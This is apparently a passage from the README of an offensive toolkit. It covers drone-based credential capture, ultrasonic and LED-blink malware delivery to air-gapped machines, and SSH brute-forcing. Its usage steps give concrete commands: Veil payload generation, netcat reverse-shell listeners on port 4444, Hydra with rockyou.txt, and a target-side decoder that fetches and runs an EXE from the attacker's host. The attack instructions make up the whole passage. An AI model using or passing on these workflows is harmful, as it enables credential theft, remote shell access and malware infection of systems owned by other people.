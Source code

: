 ### Tools
- **Kali/Pi**: `aircrack-ng`, `hostapd-wpe`, `netcat`, `iwconfig`.

### Usage
- **Setup**: On Pi—`sudo apt install aircrack-ng hostapd-wpe netcat-traditional`.
- **Run**: `sudo python3 dronepunk.py`—enter `LHOST`.
- **Deploy**: Simulate drone, start listener (`nc -lvp 4444`).
- **Output**: `/home/pi/captured_creds.txt`, shell session, logs in `dronepunk.log`.

---

## 9. SonicPunk: Ultrasonic Malware Delivery

### Purpose
Transmits a payload via ultrasonic sound—targets air-gapped systems.

### Technical Process
1. **Generate Payload**: `veil`—`/tmp/sonicpunk_veil.exe`.
2. **Encode Audio**:
   - **Details**: URL (`http://<LHOST>/sonic.exe`) to binary—`ord()` to 8-bit chunks.
   - **Code**: `wave` generates 22kHz tones—1s as `sin(22000t)`, 0s as silence, 44100Hz, 16-bit, 0.1s/bit.
   - **File**: `sonic_payload.wav`.
3. **Play**: `aplay sonic_payload.wav`—10s duration.
4. **Target Decode**: Listener (`pyaudio`)—threshold >10000 for 1s, decodes to URL, fetches EXE.

### Tools
- **Kali**: `veil`, `alsa-utils`, `python3` (wave, struct).
- **Target**: `pyaudio`.

### Usage
- **Setup**: `sudo apt install veil alsa-utils`, target: `pip install pyaudio`.
- **Run**: `sudo python3 sonicpunk.py`—enter `LHOST`, move EXE to `/tmp/sonic.exe`.
- **Deploy**: Web server (`python3 -m http.server`), listener (`nc -lvp 4444`), play audio near target.
- **Output**: `sonic_payload.wav`, shell session, logs in `sonicpunk.log`.

---

## 10. LightPunk: Optical Malware via LED Blinking

### Purpose
Uses blinking LEDs to transmit a payload—webcam decodes for remote access.

### Technical Process
1. **Generate Payload**: `veil`—`/tmp/lightpunk_veil.exe`.
2. **Scan**: `nmap -p 22,80 <ip>`—SSH/HTTP check.
3. **Brute**: `hydra -l admin -P rockyou.txt <protocol>://<ip>`—extracts creds.
4. **Inject Blink**: 
   - **Script**: `blink.sh`—`echo 1 > /sys/class/leds/led0/brightness` (1s), `sleep 1` (0s)—binary URL.
   - **Details**: `scp` uploads, `ssh` runs—assumes LED control (e.g., GPIO).
5. **Target Decode**: `opencv-python`—brightness >100 for 1s, decodes to URL, fetches EXE.
